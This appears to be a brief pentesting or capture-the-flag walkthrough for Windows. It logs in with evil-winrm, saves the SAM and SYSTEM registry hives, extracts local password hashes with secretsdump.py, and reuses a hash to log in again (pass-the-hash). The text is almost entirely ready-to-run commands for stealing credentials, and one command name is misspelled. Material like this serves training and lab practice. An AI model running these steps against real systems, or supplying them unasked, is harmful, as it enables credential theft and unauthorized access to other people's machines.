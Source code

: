 Login with evil-winrm

```Shell
evil-winrm -i x.x.x.x -u <username> -p <password> 
```

Check for privileges.

```PowerShell
whoami /groups
```

Let's get the important registry hives.

```PowerShell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
```

lets get the hashes.

```Shell
python3 secretsdump.py -sam sam.bak -system system.bak LOCAL
```

Get the hash and copy it.
Use evil-winrm to login using the hash.

```Shell
evil-wimrm -i x.x.x.x -u <username> -H <hash> 
```

